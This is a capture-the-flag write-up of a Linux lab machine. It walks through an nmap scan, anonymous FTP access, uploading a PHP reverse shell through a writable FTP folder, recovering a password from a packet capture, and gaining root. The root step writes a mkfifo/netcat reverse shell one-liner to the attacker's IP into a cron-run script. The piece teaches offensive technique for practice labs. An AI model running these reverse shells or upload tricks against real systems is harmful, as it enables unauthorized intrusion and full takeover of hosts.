


## Enumeration

- lets try scanning this web app

```bash
➜ nmap -sCV 10.10.183.126
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-18 02:58 EST
Nmap scan report for 10.10.183.126
Host is up (0.085s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.21.102.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)                                                                  
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)                                                                
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                                                              
|_http-title: Maintenance                                                                                                        
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.74 seconds
```

> I found a anonymous FTP login

## FTP Login

```bash
➜ ftp 10.10.183.126
Connected to 10.10.183.126.
220 (vsFTPd 3.0.3)
Name (10.10.183.126:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||61577|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

## Brute Force Directory

```bash
➜ gobuster dir -u http://10.10.183.126 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.183.126
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/files                (Status: 301) [Size: 314] [--> http://10.10.183.126/files/]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

> - I found a Folder name is *"files"*



> - Now, as I look at this page, I see that the folder named 'ftp' matches the name used in the FTP login. This means we can upload a reverse shell file to the 'ftp' folder on the FTP server to establish a connection with the web server. Let's give it a try!

**FIRST STEP :** *CREATE A REVERSE SHELL FILE*
- iS MY BEST Tool [Dark-Shell](https://github.com/harleyv1/Dark-Shell-V1)

```bash
    _____             _           _____ _          _ _ 
    |  __ \           | |         / ____| |        | | |
    | |  | | __ _ _ __| | _______| (___ | |__   ___| | |
    | |  | |/ _` | '__| |/ /______\___ \| '_ \ / _ \ | |
    | |__| | (_| | |  |   <       ____) | | | |  __/ | |
    |_____/ \__,_|_|  |_|\_\     |_____/|_| |_|\___|_|_|     

Drink Coffe, Enjoy Generate Shell                  by 0xPwn1 - V1.2                                                                                                 

Enter IP or Name-Interface: tun0
[~] Enter Your PORT: 1337
[~] Enter Name File (Without Extension): Shell
  ~) - Bash          ~) - Mfikto
  ~) - Perl          ~) - Perl-No-Sh
  ~) - Php           ~) - Rustcat
  ~) - Python        ~) - Netcat
  ~) - Powershell    ~) - Ruby
  ~) - Java          ~) - Groovy
  ~) - Awk           ~) - Nodejs


Choose Your Language: Php
  ~) - php            ~) - php1  ~) - php2
  ~) - php3           ~) - php4  ~) - php5
  ~) - php6           ~) - php7  ~) - php8
  ~) - php9           ~) - phtml ~) - phar


What PHP Version are you using: php
The modified file has been saved as Shell.php
```

**SECOUND STEP :** *LET UPLOAD REVERSE SHELL IN FTP SERVER*

```bash
➜ ftp 10.10.183.126
Connected to 10.10.183.126.
220 (vsFTPd 3.0.3)
Name (10.10.183.126:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||16480|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> put Shell.php
local: Shell.php remote: Shell.php
229 Entering Extended Passive Mode (|||37852|)
150 Ok to send data.
100% |************************************************************************************|  5494       29.76 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (28.49 KiB/s)
```

**FINAL STEP :** *USE A TOOL Netcat FOR Listening*

```bash
➜ nc -lnvp 1337
listening on [any] 1337 ...
```



## SSH Login

> - Now we have a username, *lennie*, but we currently do not have access to this user.  
> - After spending some time searching, I found a file in Wireshark format named *"suspicious.pcapng"*.  
> - After downloading this file to the local machine, you can use the following command:  
  ```bash ettercap -T -r suspicious.pcap```
> - Run Ettercap in Text Mode with the Converted File Now you can analyze the .pcap file with Ettercap:
> - -T: Run Ettercap in text mode.
> - -r suspicious.pcap: Load and replay the .pcap file.

***I FOUND A PASSWORD USER !***

```bash
➜ ssh lennie@10.10.183.126 
The authenticity of host '10.10.183.126 (10.10.183.126)' can't be established.
ED25519 key fingerprint is SHA256:v4Yk83aT8xnOB+pdfmlLuJY1ztw/bXsFd1cl/xV07xY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.183.126' (ED25519) to the list of known hosts.
lennie@10.10.183.126's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

44 packages can be updated.
30 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ python3 -c "import pty; pty.spawn(\"/bin/bash\")"
lennie@startup:~$ ls -la
total 24
drwx------ 5 lennie lennie 4096 Dec 18 08:24 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwx------ 2 lennie lennie 4096 Dec 18 08:24 .cache
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
lennie@startup:~$ cat user.txt 
THM{............................}
```

## Privilege Escalation

> Now , I have a File Crontab (Crontab allows system administrators and users to define commands or scripts to run periodically, such as backups, log cleanups, or system monitoring scripts.)

```bash
lennie@startup:~/scripts$ cat planner.sh 
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

> lets generate a revrshell mfikto for access root :
```bash

    _____             _           _____ _          _ _ 
    |  __ \           | |         / ____| |        | | |
    | |  | | __ _ _ __| | _______| (___ | |__   ___| | |
    | |  | |/ _` | '__| |/ /______\___ \| '_ \ / _ \ | |
    | |__| | (_| | |  |   <       ____) | | | |  __/ | |
    |_____/ \__,_|_|  |_|\_\     |_____/|_| |_|\___|_|_|     

Drink Coffe, Enjoy Generate Shell                  by 0xPwn1 - V1.2                                                                                                 

Enter IP or Name-Interface: tun0
[~] Enter Your PORT: 9999
[~] Enter Name File (Without Extension): Root
  ~) - Bash          ~) - Mfikto
  ~) - Perl          ~) - Perl-No-Sh
  ~) - Php           ~) - Rustcat
  ~) - Python        ~) - Netcat
  ~) - Powershell    ~) - Ruby
  ~) - Java          ~) - Groovy
  ~) - Awk           ~) - Nodejs


Choose Your Language: Mfikto
The modified file has been saved as Root.sh
➜  CTF-Writeups batcat Root.sh 
───────┬─────────────────────────────────────────────────────────────────────────────────
       │ File: Root.sh
───────┼─────────────────────────────────────────────────────────────────────────────────
   1   │ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.*.*.* 9999 >/tmp/f
───────┴─────────────────────────────────────────────────────────────────────────────────
```

- Now Print This Command :
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.21.102.133 9999 >/tmp/f
" > /etc/print.sh
```

>whait for run script print.sh as root ...

**FINNALY**
```bash
➜ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.21.102.133] from (UNKNOWN) [10.10.183.126] 60974
bash: cannot set terminal process group (1704): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# cat /root/root.txt
cat /root/root.txt
THM{f........................}
```

***GOOD LUCK***